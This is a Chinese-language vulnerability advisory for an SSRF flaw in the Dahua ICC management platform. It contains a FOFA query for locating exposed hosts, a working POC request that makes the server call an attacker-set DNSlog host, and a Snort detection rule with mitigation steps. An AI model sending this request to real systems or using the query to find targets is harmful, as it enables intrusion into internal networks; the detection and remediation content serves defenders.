

# 大华ICC-conn-ssrf

大华ICC-conn-ssrf

# 影响版本

根据FOFA指纹和POC验证，受影响版本覆盖大华智能物联综合管理平台的多个版本。

# **漏洞状态**

|**漏洞细节**|**漏洞POC**|**漏洞EXP**|**在野利用**|
| :-: | :-: | :-: | :-: |
|**是**|**已公开**|**已公开**|**已知**|

## 风险等级

|**维度**|**评价**|
| :-: | :-: |
|**威胁等级**|**高危**|
|**影响面**|**广**|
|**攻击者价值**|**高**|
|**利用难度**|**低**|

# 漏洞复现

**fofa:**  body="/客户端会小于800/" && product="dahua-智能物联综合管理平台"

**POC/EXP：**

**step1 ssrf**

```
POST /evo-apigw/evo-cascade/mas/conn HTTP/1.1
Host: 127.0.0.1
Accept: */*
Accept-Encoding: gzip, deflate
Connection: keep-alive
Content-Type: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.3

{"masPort":"80","masIp":"DNSlog-IP"}
```

​​

**sonrt规则：**

```
alert http any any -> $HOME_NET any (
    msg:"大华ICC - /evo-apigw/evo-cascade/mas/conn SSRF漏洞";
    flow:to_server,established;
    http.method; content:"POST";
    http.uri;
        content:"/evo-apigw/evo-cascade/mas/conn";
        fast_pattern;
    http.content_type; content:"application/json";
    http.request_body;
        content:"masPort"; nocase;
        content:"masIp"; nocase; distance:0;
    metadata:
        service http,
        affected_product "大华ICC",
        vulnerability_type "Server-Side Request Forgery (SSRF)",
        severity "high";
    classtype:web-application-attack;
    sid:1000732;
    rev:1;
    priority:1;
)
```

# 漏洞修复

* **联系厂商**：联系大华官方获取针对该漏洞的安全补丁或升级版本。

* **WAF拦截**：在管理接口前部署WAF，对 `/evo-apigw/evo-cascade/mas/conn`​ 接口的请求参数实施**SSRF特征检测**，拦截包含内网IP、元数据地址或异常域名的 `masIp`​ 参数值。

‍
